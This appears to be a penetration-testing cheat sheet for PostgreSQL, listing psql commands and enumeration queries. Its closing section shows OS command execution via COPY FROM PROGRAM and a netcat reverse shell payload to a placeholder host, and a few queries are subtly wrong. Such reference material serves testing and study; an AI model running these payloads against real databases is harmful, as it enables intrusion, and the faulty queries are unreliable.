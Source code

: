 ## TCP 5432 Postgresql  

### Connecting to the database
`psql -h HOST/IP -p PORT -U USER`  

Default username and database are both `postgres`   


### Postgres Commands  
```
Some interesting flags (to see all, use -h or --help depending on your psql version):

-E: will describe the underlaying queries of the \ commands (cool for learning!)
-l: psql will list all databases and then exit (useful if the user you connect with doesn’t has a default database, like at AWS RDS)
Most \d commands support additional param of __schema__.name__ and accept wildcards like *.*

\q: Quit/Exit
\c __database__: Connect to a database
\d __table__: Show table definition (columns, etc.) including triggers
\d+ __table__: More detailed table definition including description and physical disk size
\l: List databases
\dy: List events
\df: List functions
\di: List indexes
\dn: List schemas
\dt *.*: List tables from all schemas (if *.* is omitted will only show SEARCH_PATH ones)
\dT+: List all data types
\dv: List views
\dx: List all extensions installed
\df+ __function__ : Show function SQL code.
\x: Pretty-format query results instead of the not-so-useful ASCII tables
\copy (SELECT * FROM __table_name__) TO 'file_path_and_name.csv' WITH CSV: Export a table as CSV
\des+: List all foreign servers
\dE[S+]: List all foreign tables

# User Related:
\du: List users
\du __username__: List a username if present.
create role __test1__: Create a role with an existing username.
create role __test2__ noinherit login password __passsword__;: Create a role with username and password.
set role __test__;: Change role for current session to __test__.
grant __test2__ to __test1__;: Allow __test1__ to set its role as __test2__.
\deu+: List all user mapping on server

# show version
show version();

# Comment
--comment
or
/*comment*/

# Enumerating db contents
# Listing the tables
SELECT * FROM information_schema.tables
or
SELECT TABLE_NAME FROM information_schema.tables

# Listing columns
SELECT * FROM information_schema_columns WHERE table_name = 'TABLE_NAME'
or
SELECT column_name FROM information_schema_columns WHERE table_name = 'TABLE_NAME'
```
 
### Command Execution in Postgresql  >= 9.3

```
DROP TABLE IF EXISTS cmd_exec;  
CREATE TABLE cmd_exec(cmd_output text);  
COPY cmd_exec FROM PROGRAM 'COMMAND';  
SELECT * FROM cmd_exec;  
```
<i>COMMAND</i> is the command to pass onto the operating system.  
Output of the command is shown after execution of the final SELECT command.  

**For reverse shell**:  
```
DROP TABLE IF EXISTS cmd_exec;  
CREATE TABLE cmd_exec(cmd_output text);  
COPY cmd_exec FROM PROGRAM 'nc HOST/IP PORT -e /bin/sh & 2>/dev/null'; 
SELECT * FROM cmd_exec;  
```
*references*  
[PostgreSQL: Commands Cheat Sheet](https://simplecheatsheet.com/postgresql-commands/#:~:text=PostgreSQL%3A%20Commands%20Cheat%20Sheet%201%20%5Cq%3A%20Quit%2FExit%202,List%20functions%208%20%5Cdi%3A%20List%20indexes%20More%20items)
